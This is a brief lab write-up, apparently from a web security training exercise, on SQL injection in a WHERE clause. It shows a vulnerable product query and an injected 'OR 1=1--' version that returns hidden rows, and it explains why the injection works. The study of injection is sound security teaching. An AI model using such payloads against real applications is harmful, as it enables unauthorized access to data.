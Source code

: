 Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Vulnerable query: ` SELECT * FROM products WHERE category = 'Gifts' AND released = 1 `

Exploit path: ` SELECT * FROM products WHERE category = 'Gifts' OR 1=1-- `

The above will always select all from products because `OR 1=1` always evaluates to true
